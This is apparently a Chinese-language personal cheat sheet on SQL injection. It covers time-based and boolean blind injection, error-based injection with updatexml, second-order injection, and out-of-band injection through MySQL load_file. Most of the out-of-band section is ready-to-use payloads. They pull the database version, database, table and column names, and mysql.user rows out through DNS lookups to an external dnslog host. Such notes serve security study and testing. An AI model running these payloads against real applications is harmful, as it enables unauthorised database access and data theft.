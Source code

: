 ## 盲注

基于布尔

​	有数据库输出作为判断标准

基于时间

```
if(条件, sleep(3) ,0)
条件sleep3秒 否则返回0

if(length(database())=3, sleep(3) ,sleep(0))
if(left(database(),1)='s', sleep(3) ,sleep(0))
```

基于报错

​	要有报错处理语句，不然不报错

```
updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

## 二次注入

1、需要有addslashes()函数对单引号进行转义或者开启`magic_quotes_gpc`才行，否则插入不进数据库，因为你想插入数据库的语句中有单引号

转义其实就是“你写的是什么，它存的就是什么，单引号不会对sql语句的执行造成干扰”

```
$_username = addslashes($_POST['username']);
```

2、后续有利用插入数据的地方

## 外带注入

https://www.cnblogs.com/wuhongbin/p/15582944.html

- load_file() 不仅能够加载本地文件，同时也能对诸如[www.test.com](http://www.test.com/)这样的URL发起请求。
- load_file() 加载文件' '，是对' \ '的转义，load_file读取文件和windows读取文件调用的都是c的fopen()函数，而双斜杠表示网络资源路径，即UNC路径，于是发起了dns请求

条件：

1、高权限 root

2、secure_file_priv 拥有读写权限

```
secure_file_priv = ""       # 可以读取磁盘目录
secure_file_priv = "D:\"    # 可以读取D盘文件
secure_file_priv = null     # load_file限制，不能加载文件
```

- 在mysql 5.5.34 默认为空可以加载文件，之后的版本为NULL，不能加载文件

```
show global variables like 'secure%';  //查看是否有写限制
```

mysql中常见payload：

- 查看版本号

```sql
 ?id=1 union select 1,load_file(concat('\\\\',( select version()),'.2hlktd.dnslog.cn\\a')),3--+
```

- 查库名

```sql
?id=1 union select 1,load_file(concat('\\\\',( select database()),'.2hlktd.dnslog.cn\\a')),3--+
```

- 查表名

```sql
select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='mysql' limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```

- 查列名

```sql
select load_file(concat('\\\\',( select column_name from information_schema.columns where table_schema = 'mysql' and table_name = 'users' limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```

- 查数据

```sql
select load_file(concat('\\\\',( select id from mysql.user limit 0,1),'.2hlktd.dnslog.cn\\a'))--+
```
